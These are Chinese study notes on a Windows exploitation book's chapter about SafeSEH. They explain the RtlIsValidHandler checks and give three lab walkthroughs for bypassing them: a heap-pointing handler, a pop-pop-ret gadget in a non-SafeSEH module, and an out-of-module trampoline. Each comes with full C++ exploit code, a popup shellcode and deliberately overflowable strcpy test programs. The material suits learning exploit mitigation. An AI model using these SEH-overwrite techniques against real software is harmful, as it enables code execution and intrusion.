





# notes about chapter 11

## from 11.1

简单回顾（SEH结构体）：  

|Dword:Next SEH Header（低地址）|SEH链表指针|
|------------------------|-------|
|Dword:Exception Handler（高地址）|异常处理函数句柄|

safeSEH机制的几个校验：

1. 检查异常处理链（SEH链表指针）在当前程序栈中，若不在则终止异常处理函数得调用。
2. 检查异常处理函数句柄是否在当前栈中，若在则终止。
3. 在前面两项检查都通过后，程序调用一个全新的函数RtlIsValidHandler()，来对异常处理函数的有效性进行验证。

RtlIsValidHandler的一些验证：  
1. 检查程序是否设置了IMAGE_DLLCHARACTERISTICS_NO_SEH 标识。如果设置了这个标识，这个程序内的异常会被忽略。所以当这个标志被设置时，函数直接返回校验失败。
2. 检测程序是否包含安全S.E.H 表。如果程序包含安全S.E.H 表，则将当前的异常处理函数地址与该表进行匹配，匹配成功则返回校验成功，匹配失败则返回校验失败。
3. 判断程序是否设置ILonly 标识。如果设置了这个标识，说明该程序只包含.NET编译人中间语言，函数直接返回校验失败。
4. 判断异常处理函数地址是否位于不可执行页（non-executable page）上。当异常处理函数地址位于不可执行页上时，校验函数将检测DEP 是否开启，如果系统未开启DEP 则返回校验成功，否则程序抛出访问违例的异常。

若SEH句柄地址不在加载模块的内存空间上，会进行如下的判断：
1. 判断异常处理函数地址是否位于不可执行页（non-executable page）上。当异常处理函数地址位于不可执行页上时，校验函数将检测DEP 是否开启，如果系统未开启DEP 则返回校验成功，否则程序抛出访问违例的异常。
2. 判断系统是否允许跳转到加载模块的内存空间外执行，如果允许则返回校验成功，否则返回校验失败。



相关伪代码如下：

```C
BOOL RtlIsValidHandler(handler)
{
    if (handler is in an image) { //在加载模块内存空间内
        if (image has the IMAGE_DLLCHARACTERISTICS_NO_SEH flag set)
            return FALSE;
        if (image has a SafeSEH table) //含有安全S.E.H 表，说明程序启用SafeSEH
            if (handler found in the table)//异常处理函数地址出现在安全S.E.H 表中
                return TRUE;
            else //异常处理函数未出现在安全S.E.H 表中
                return FALSE;
        if (image is a .NET assembly with the ILonly flag set) //只包含IL
            return FALSE;
    }
    if (handler is on a non-executable page) { //跑到不可执行页上了
        if (ExecuteDispatchEnable bit set in the process flags) //DEP 关闭
            return TRUE;
        else
            raise ACCESS_VIOLATION; //抛出访问违例异常
    }
    if (handler is not in an image) { //在加载模块内存之外，并且在可执行页上
        if (ImageDispatchEnable bit set in the process flags)
        //允许在加载模块内存空间外执行
            return TRUE;
        else
            return FALSE;
    }
    return TRUE; //前面条件都不满足的话只能允许这个异常处理函数执行了
}
```

根据伪代码可以清晰整理出使得返回值为1的方法：
1. 在加载模块内没有SEH表。
2. 在加载模块内且在SEH表中。
3. 在不可执行的分页且DEP关闭。
4. 在加载模块之外且DEP关闭。

其中可以使得shellcode可能执行的为1，2，4，具体方法：
1. 针对上的4，排除DEP 干扰后，我们只需在加载模块内存范围之外找到一个跳板指令就可以转入shellcode 执行，
这点还是比较容易实现的。
2. 针对上的2，我们可以利用未启用SafeSEH 模块中的指令作为跳板，转入shellcode
执行，这也是为什么我们说SafeSEH 需要操作系统与编译器的双重支持。在加载模块中找到一个未启用的SafeSEH 模块也不是一件很困难的事情。
3. 针对上的1，一是清空安全S.E.H 表，造成该模块未启用SafeSEH 的假象；二是将我们的指令注册到安全S.E.H 表中。由于安全S.E.H 表的信息在内存中是加密存放的，所以突破它的可能性也不大，这条路我们就先放弃吧。

书中还阐述了比较简单的攻击方法：
1. 不攻击SEH，可以考虑覆盖返回地址或者虚函数表等信息。
2. 利用S.E.H 的终极特权！这种安全校验存在一个严重的缺陷——如果S.E.H 中的异常函数指针指向堆区，即使安全校验发现了S.E.H 已经不可信，仍然会调用其已被修改过的异常
处理函数，因此只要将shellcode 布置到堆区就可以直接跳转执行！

即将shellcode布置到堆区中（当然DEP关闭）。

## from 11.4

实验要点：

当strcpy时产生溢出，当test时出现异常，异常调用的SEH中的异常函数指针指向堆区，故可以绕过safeSEH。

shellcode在堆中的位置：0x00392A60

shellcode在栈中的起始位置：0x0012FDB4

test栈中的SEH处理指针：0x0012FFAC->0x00411078

所以shellcode：504(shellcode+patch)+addr(0x00392A60)

使用书中的弹窗shellcode，得到的整个代码：  

```C++
#include<stdlib.h>
#include<string>
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
//patch
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x60\x2A\x39\x00"
;
void test(char * input)
{
	char str[200];
	strcpy(str,input);
	//__asm int 3;
	int zero=0;
	zero=1/zero;
}
void main()
{
	char * buf=(char *)malloc(500);
	//__asm int 3
	strcpy(buf,shellcode);
	test(shellcode);
}
```

验证结果：



## from 11.5
### 利用未启用SafeSEH模块绕过SafeSEH

这里布置了一个没开启safeSEH的模块进行测试：


使用的pop pop ret指令地址：

111211B6        pop ecx
                pop ecx
                retn

所以将SEH handle的地址覆盖为0x111211B6即可。

SEH指针地址：0x0012FE94

参数的开始地址：0x0012FDB8

所以需要220的patch。

所以payload=patch("0x90"*220)+(0x111211B6)+("0x90"8)+shellcode

测试代码：

```C++
//SEH_NOSafeSEH.EXE
#include<string>
#include <tchar.h>
#include<cstdio>
#include<windows.h>
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xB6\x11\x12\x11"//address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;
DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}
void test(char * input)
{
	char str[200];
	strcpy(str,input);
	int zero=0;
	__try
	{
		zero=1/zero;
	}
	__except(MyException())
	{

	}
}
int _tmain(int argc, _TCHAR* argv[])
{
	HINSTANCE hInst = LoadLibrary(_T("SEH_NOSafeSEH_JUMP.dll"));//load No_SafeSEH module
	char str[200];
	__asm int 3
	test(shellcode);
	return 0;
}
```

在0x111211B6设置断点，在程序将参数拷贝完成后f9，可以看到程序直接跳转到布置的（pop pop retn）处：



此时就因为地址指向的是未开启safeSEH的地方，所以可以进行跳转。
f9继续运行即可看到shellcode执行成功：


## from 11.6
### 利用加载模块之外的地址绕过SafeSEH

当seh指针指向的是模块之外的映射空间时，不会进行校验安全性。在这种映射文件中找到跳板指令即可。

找一条这样的跳转指令：



跳板指令地址：0x00280B0B

这里因为有\x00作为截断，所以不能将shellcode布置到该地址后面。书中介绍了一个跳转的方法，可是调试以后发现这个方法也是建立在一个巧合之上的：ebp+0x30 处存放的是 next SEH struct，即SEH handle的上面四个字节。

使用两个字节的短跳转指令（EB 一个字节偏移）跳转到5个字节的长跳转指令处（E9 四个字节偏移），栈中的布置：  

```
E9 (四个字节的偏移到shellcode开始处) 90 90(这里一共八个字节)
EB F6 90 90(跳转到上一句)
```

SEH handle addr：0x0012FF64

存放长长地址跳转的地址：0x0012FF60

参数起始地址：0x0012FE88

所以整个shellcode：

(168 bytes shellcode)+(40 bytes nop)+(8 bytes "\xE9\x2B\xFF\xFF\xFF\x90\x90\x90")+(4 bytes "\xB\xF6\x90\x90")+跳板指令

最后到的代码：
```C++
#include<string>
#include<cstdio>
#include<windows.h>
#include<tchar.h>
char shellcode[]=                   
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"      
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"      
"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90"      
"\xEB\xF6\x90\x90"                      
"\x0B\x0B\x28\x00"                    
;
;
DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}
void test(char * input)
{
	char str[200];
	strcpy(str,input);
	int zero=0;
	__try
	{
		zero=1/zero;
	}
	__except(MyException())
	{
	}
}
int _tmain(int argc, _TCHAR* argv[])
{
	//__asm int 3
	test(shellcode);
	return 0;
}
```

最终结果：




